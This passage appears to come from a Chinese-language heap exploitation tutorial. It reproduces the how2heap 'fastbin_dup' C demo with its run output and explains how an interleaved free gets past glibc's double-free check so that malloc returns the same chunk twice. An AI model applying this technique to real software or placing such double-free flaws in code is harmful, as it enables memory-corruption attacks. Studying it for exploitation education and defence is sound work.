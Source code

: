 \subsection{fastbin\_dup}
\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");

    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);

    fprintf(stderr, "Freeing the first one...\n");
    free(a);

    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);

    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
    fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));
}
\end{verbatim}

运行得到结果：
\begin{verbatim}
$  how2heap git:(master) ✗ ./fastbin_dup

This file demonstrates a simple double-free attack with fastbins.
Allocating 3 buffers.
1st malloc(8): 0xb3b010
2nd malloc(8): 0xb3b030
3rd malloc(8): 0xb3b050
Freeing the first one...
If we free 0xb3b010 again, things will crash because 0xb3b010 is at the top of the free list.
So, instead, we'll free 0xb3b030.
Now, we can free 0xb3b010 again, since it's not the head of the free list.
Now the free list has [ 0xb3b010, 0xb3b030, 0xb3b010 ]. If we malloc 3 times, we'll get 0xb3b010 twice!
1st malloc(8): 0xb3b010
2nd malloc(8): 0xb3b030
3rd malloc(8): 0xb3b010
\end{verbatim}

这个程序展示了利用\verb+ fastbins+的\verb+ double-free+攻击，可以泄漏出一块已经被分配的内存指针\verb+ fastbins+可以看成一个后进先出的栈，使用单链表实现，通过\verb+ fastbin->fd+来遍历\verb+ fastbins+。由于\verb+ free+的过程会对\verb+ free list+ 做检查，我们不能连续两次\verb+ free+同一个\verb+ chunk+，所以这里在两次\verb+ free+ 之间，增加了一次对其他\verb+ chunk+的\verb+ free+过程，从而绕过检查顺利执行。然后再\verb+ malloc+三次，就在同一个地址\verb+ malloc+了两次，也就有了两个指向同一块内存区域的指针。

